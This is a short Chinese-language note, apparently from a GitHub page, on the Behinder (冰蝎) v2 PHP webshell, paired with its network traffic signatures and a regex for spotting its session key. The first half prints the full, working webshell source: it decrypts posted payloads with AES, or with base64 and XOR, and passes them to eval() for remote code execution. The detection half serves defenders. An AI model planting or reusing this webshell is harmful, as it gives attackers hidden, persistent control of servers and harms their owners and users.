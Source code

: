 ### Behinder 冰蝎2

#### 基础代码

```php
# behinder.php，密码pass

<?php
@error_reporting(0);
session_start();
if (isset($_GET['pass']))
{
    $key=substr(md5(uniqid(rand())),16);
    $_SESSION['k']=$key;
    print $key;
}
else
{
    $key=$_SESSION['k'];
  $post=file_get_contents("php://input");
  if(!extension_loaded('openssl'))
  {
    $t="base64_"."decode";
    $post=$t($post."");
    
    for($i=0;$i<strlen($post);$i++) {
           $post[$i] = $post[$i]^$key[$i+1&15]; 
          }
  }
  else
  {
    $post=openssl_decrypt($post, "AES128", $key);
  }
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
  class C{public function __construct($p) {eval($p."");}}
  @new C($params);
}
?>
```

#### 流量特征

- 密钥特征：使用AES加密+Base64编码，AES使用动态密钥对通信进行加密。
- 请求包/响应包固定字节：请求包前21字节，响应包前42字节为固定值，一般与Webshell密码有关。
- 请求头User-Agent字段：内置了 10 种 User-Agent，每次连接 Shell 时会随机选择一个进行使用。因此当发现一个IP的请求头中的User-Agent在频繁变换，就可能是冰蝎。
- 响应数据包：响应数据包中长度为16的字符串为key，例如`93edbafac50eb64c`。

简单的流量拦截：

```shell
# \b匹配边界符
^[a-z0-9]{16}\b

# 提取出93edbafac50eb64c
```
